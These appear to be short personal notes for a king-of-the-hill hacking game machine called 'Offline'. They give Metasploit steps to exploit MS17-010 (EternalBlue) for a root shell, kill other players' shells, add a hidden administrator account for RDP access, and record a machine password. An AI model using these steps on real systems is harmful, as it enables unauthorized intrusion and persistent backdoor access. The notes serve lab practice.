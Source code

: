 Offline (windows)

## Popping a shell in root:
- `http://ip:80` --> passwd OfflineTV2020

- nmap --> SMB
- `msfconsole`
	- `search ms17-010`
	- `use 4` or whatever, the psexec one
	- `options`
	- `run`
	- Root!
	- `edit /users/administrator/king-server/king.txt`
	`migrate to FreeSSHDService.exe or whatever works`
	`mkdir /root`
	`edit /root/king.txt` confuse others
	`ps | grep "cmd|powershell"` and `kill PID` to kick others out
	
Get a GUI rdp:
	
`net user USERNAME PASSWORD /add`
`net localground administrators USERNAME /add`

`xfreerdp /u:USERNAME /p:PASSWORD /v:IP /size:90%`

- `http://IP/Scarras_Super_Secret_Password.txt`

Aside: This machine sucks since eternal blue can't be patched (as far as I know) without restarting and firewalling it off isn't allowed
